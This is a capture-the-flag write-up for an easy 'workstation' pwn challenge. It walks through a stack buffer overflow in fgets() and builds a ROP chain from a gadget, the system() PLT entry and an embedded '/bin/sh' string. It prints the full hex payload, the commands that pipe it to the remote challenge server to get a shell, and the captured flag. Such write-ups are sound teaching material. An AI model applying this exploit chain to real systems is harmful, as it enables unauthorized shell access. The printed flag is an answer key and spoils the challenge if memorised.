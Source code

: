 # workstation

[library.m0unt41n.ch/challenges/workstation](https://library.m0unt41n.ch/challenges/workstation) ![](../../resources/pwn.svg) ![](../../resources/easy.svg) 

# TL;DR

We can access a server, with a buffer overflow on user input.
A very simple ROP attack, with all the needed parts clearly provided.

# Decompiled code

```c
int main(int argc, const char **argv, const char **envp) {
  char s[64];

  setbuf(stdout, 0LL);
  system("uname -a");
  system("date");
  printf("/bin/sh");
  putchar('\n');
  printf("Command: ");
  fgets(s, 128, stdin);
  return 0;
}
```

## A ROP gadget

```asm
$ objdump -M intel -d workstation
(...)
0000000000401166 <gadget>:
  401166:	55                   	push   rbp
  401167:	48 89 e5             	mov    rbp,rsp
  40116a:	5f                   	pop    rdi
  40116b:	c3                   	ret
  40116c:	90                   	nop
  40116d:	5d                   	pop    rbp
  40116e:	c3                   	ret
```

## system() entry in PLT

Thanks to the `system()` calls in the code, we have a convenient PLT entry
for that libc function, at `0x00401050`.

```asm
$ objdump -M intel -d workstation
(...)
0000000000401050 <system@plt>:
  401050:	ff 25 ba 2f 00 00    	jmp    QWORD PTR [rip+0x2fba]        # 404010 <system@GLIBC_2.2.5>
  401056:	68 02 00 00 00       	push   0x2
  40105b:	e9 c0 ff ff ff       	jmp    401020 <_init+0x20>

```

## "/bin/sh" string

Similarly, thanks to the `printf()` we don't even have to look for it in the libc &#128578; It's right there at `0x00402012`

```asm
$ objdump  -s .rodata workstation
(...)
Contents of section .rodata:
 402000 01000200 756e616d 65202d61 00646174  ....uname -a.dat
 402010 65002f62 696e2f73 6800436f 6d6d616e  e./bin/sh.Comman
 402020 643a2000                             d: .            
```

## No protections

The binary has most of the protections disabled

```
$ checksec --file=workstation
RELRO    STACK CANARY     NX          PIE     RPATH     RUNPATH     Symbols     FORTIFY	 Fortified Fortifiable
Partial  No canary found  NX enabled  No PIE  No RPATH  No RUNPATH  41 Symbols  No       0         2
```

In particular, it has disabled the stack canary. Together with no PIE, this means that it is simple to
exploit the buffer overflow in `fgets()` to create a ROP chain, using all above gadgets.

# Exploit

The ROP chain needs:

*   64 bytes for the `s` buffer
*   8 bytes for RBP
*   `0x0040116D`: `pop rbp` gadget
*   `0x00402012`: `/bin/sh` string address
*   `0x00401166`: `push rbp ; mov rbp,rsp ; pop rdi ; ret` gadget
*   `0x00401050`: `system()` function address in PLT.

```bash
echo "
41 41 41 41 41 41 41 41
42 41 41 41 41 41 41 41
43 41 41 41 41 41 41 41
44 41 41 41 41 41 41 41
45 41 41 41 41 41 41 41
46 41 41 41 41 41 41 41
47 41 41 41 41 41 41 41
48 41 41 41 41 41 41 41
bb bb bb bb bb bb bb bb
6d 11 40 00 00 00 00 00
12 20 40 00 00 00 00 00
66 11 40 00 00 00 00 00
50 10 40 00 00 00 00 00
0A
" | xxd -r -p - >payload
# 0.1s of sleep, between fgets() and system(), to prevent too much buffering
(cat payload ; sleep 0.1 ; cat) | ./workstation
rm -f payload 
```

(fun fact: I did this before I learned about `pwntools` in Python)

# Getting the flag

```
$ (cat payload ; sleep 0.1 ; cat) | ncat --ssl 08221469-8753-4687-8bc6-66ce70657802.library.m0unt41n.ch 1337
Linux workstation 5.15.0-116-generic #126-Ubuntu SMP Mon Jul 1 10:14:24 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
Sat Aug 24 08:46:35 UTC 2024
/bin/sh
Command: ls
flag
workstation
cat flag
shc2023{r0p3d_y0ur_w4y_1nt0_th3_w0rkst4t10n}
```

---

## `shc2023{r0p3d_y0ur_w4y_1nt0_th3_w0rkst4t10n}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
